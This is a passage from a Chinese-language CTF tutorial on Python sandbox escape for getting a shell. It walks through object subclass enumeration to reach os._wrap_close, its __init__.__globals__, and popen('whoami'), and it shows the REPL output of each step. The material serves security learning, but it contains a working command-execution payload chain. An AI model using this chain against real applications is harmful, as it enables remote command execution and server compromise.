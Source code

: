 *   第四步
    

在子类列表中找到可以 getshell 的类

寻找利用类
-----

在上述的第四步中，如何快速的寻找利用类呢

### 利用脚本跑索引

我们一般来说是先知晓一些可以 getshell 的类，然后再去跑这些类的索引，然后这里先讲述如何去跑索引，再详写可以 getshell 的类

这里先给出一个在本地遍历的脚本，原理是先遍历所有子类，然后再遍历子类的方法的所引用的东西，来搜索是否调用了我们所需要的方法，这里以`popen`为例子

`find.py`

![](https://mmbiz.qpic.cn/mmbiz_png/3RhuVysG9LfP3o9TibDf1JBXWRqr32SuH0x9ZrJwp4J2yHBiaFr0fqISeuRvMkwHgRc0euwtwTo9r4BicuHPO22cw/640?wx_fmt=png)

我们运行这个脚本

```
λ python3 find.py
<class 'os._wrap_close'> 128
```

可以发现`object`基类的第 128 个子类名为`os._wrap_close`的这个类有 popen 方法

先调用它的`__init__`方法进行初始化类

```
Python 3.7.8
>>> "".__class__.__bases__[0].__subclasses__()[128].__init__
<function _wrap_close.__init__ at 0x000001FCD0B21E58>
```

再调用`__globals__`可以获取到方法内以字典的形式返回的方法、属性等值

```
Python 3.7.8
>>> "".__class__.__bases__[0].__subclasses__()[128].__init__.__globals__
{'__name__': 'os'...中间省略...<class 'os.PathLike'>}
```

然后就可以调用其中的 popen 来执行命令

```
Python 3.7.8
>>> "".__class__.__bases__[0].__subclasses__()[128].__init__.__globals__['popen']('whoami').read()
'desktop-t6u2ptl\\think\n'
```

但是上面的方法仅限于在本地寻找，因为在做 CTF 题目的时候，我们无法在题目环境中运行这个`find.py`，这里用 hhhm 师傅的一个脚本直接去寻找子类

我们首先把所有的子类列举出来

```
Python 3.7.8
>>> ().__class__.__bases__[0].__subclasses__()
...一大堆的子类
```
